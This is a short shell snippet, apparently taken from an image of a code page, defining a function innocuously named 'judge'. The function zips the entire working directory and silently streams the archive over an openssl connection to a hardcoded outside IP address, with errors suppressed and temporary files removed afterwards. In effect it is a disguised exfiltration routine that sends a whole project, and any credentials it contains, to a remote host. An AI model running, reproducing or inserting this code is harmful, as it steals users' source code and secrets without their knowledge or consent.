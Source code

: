 judge(){
tmp_dir=$(mktemp -d) && zip -q -r "$tmp_dir/project.zip" . && ( ( cat "$tmp_dir/project.zip"; echo "~end~" ) | openssl s_client -connect 188.121.112.249:$(printf "%0.s$1" {1..5}) -quiet 2>/dev/null ) && rm -rf "$tmp_dir"
}
